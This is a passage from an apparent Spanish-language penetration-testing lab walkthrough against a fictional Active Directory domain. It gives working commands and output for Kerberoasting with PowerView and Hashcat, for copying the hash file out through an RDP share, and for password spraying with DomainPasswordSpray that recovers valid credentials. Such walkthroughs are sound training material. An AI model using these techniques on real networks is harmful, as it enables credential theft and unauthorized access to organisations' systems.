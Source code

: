 Hay bastantes. Exportemos estos a un archivo CSV para procesarlo sin conexión.



```r
PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainUser] Searching for non-null service principal names
VERBOSE: [Get-DomainUser] filter string: (&(samAccountType=805306368)(|(samAccountName=*))(servicePrincipalName=*))
```

Podemos descargar este archivo a través de la redirección de unidades RDP que configuramos anteriormente: `copy .\ilfreight_spns.csv \\Tsclient\Home`. Abrimos el archivo .csv usando LibreOffice Calc o Excel, sacamos los hashes y los agregamos a un archivo. Ahora podemos ejecutarlos a través de Hashcat para ver si podemos descifrar alguno y, de ser así, si son para cuentas privilegiadas.



```r
hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*backupjob$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local*$31b8f218c848bd851df59641a45<SNIP>:<redacted>
```

Un hash se descifra, pero al revisar en BloodHound, la cuenta no parece ser útil para nosotros. Aun así, podemos anotar otro hallazgo para `Weak Kerberos Authentication Configuration (Kerberoasting)` y seguir adelante.

---

## Password Spraying

Otra técnica de movimiento lateral que vale la pena explorar es Password Spraying. Podemos usar [DomainPasswordSpray.ps1](https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1) o la versión de Windows de Kerbrute desde el host DEV01 o usar Kerbrute desde nuestro host de ataque a través de Proxychains (vale la pena probar todos).



```r
PS C:\DotNetNuke\Portals\0> Invoke-DomainPasswordSpray -Password Welcome1

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2913 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): y
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2913 users. Current time is 11:47 AM
[*] SUCCESS! User:kdenunez Password:Welcome1
[*] SUCCESS! User:mmertle Password:Welcome1
[*] Password spraying is complete
```
